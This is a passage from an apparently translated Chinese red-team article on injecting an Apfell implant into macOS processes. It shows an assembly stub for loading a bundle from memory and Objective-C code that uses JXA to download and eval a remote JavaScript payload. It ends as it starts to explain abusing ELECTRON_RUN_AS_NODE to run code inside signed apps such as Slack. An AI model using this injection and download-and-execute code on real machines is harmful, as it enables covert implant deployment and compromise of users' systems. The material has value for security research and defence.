 ```

; Addresses updated by launcher 
retaddr:                dq 0x4141414141414141
malloc:                 dq 0x4242424242424242
NSCreateObjectFileImageFromMemory: dq 0x4343434343434343
NSLinkModule:           dq 0x4444444444444444
NSLookupSymbolInModule: dq 0x4545454545454545
NSAddressOfSymbol:      dq 0x4646464646464646
BundleLen:              dq 0x4747474747474747

; Path where bundle is stored on disk
BundlePath:             resb 0x20
```

我们将要加载的包是一个非常简单的JXA执行：

```
#include &lt;stdio.h&gt;
#include &lt;pthread.h&gt;
#import &lt;Foundation/Foundation.h&gt;
#import &lt;OSAKit/OSAKit.h&gt;

void threadStart(void* param) `{`
    OSAScript *scriptNAME= [[OSAScript alloc] initWithSource:@"eval(ObjC.unwrap( $.NSString.alloc.initWithDataEncoding( $.NSData.dataWithContentsOfURL( $.NSURL.URLWithString('http://127.0.0.1:8111/apfell-4.js')), $.NSUTF8StringEncoding)));" language:[OSALanguage languageForName:@"JavaScript"] ];
    NSDictionary * errorDict = nil;
    NSAppleEventDescriptor * returnDescriptor = [scriptNAME executeAndReturnError: &amp;errorDict];
`}`

int run(void) `{`
#ifdef STEAL_THREAD
    threadStart(NULL);
#else
    pthread_t thread;
    pthread_create(&amp;thread, NULL, &amp;threadStart, NULL);
#endif
`}`
```

注入`Apfell implant`的POC代码可以在[这里](https://gist.github.com/xpn/ce5e085b0c69d27e6538179e46bcab3c)找到。

另外，可以在苹果APP商店找到的`Electron`框架也可以被注入。



## Electron框架注入

正如我们现在所知道的，`Electron`是一个框架，它允许web应用程序移植到桌面，并且它被用于安全存储RAM。

那么，我们如何在一个经过签名和带有`hardened runtime`标志的应用程序中执行代码呢？我们通过引入环境变量`ELECTRON_RUN_AS_NODE`。

这个环境变量将`Electron`应用程序转换为常规的旧`NodeJS REPL`。例如，让我们从App Store中选取一个流行的应用程序，比如`Slack`，并设置`ELECTRON_RUN_AS_NODE`环境变量来启动进程：
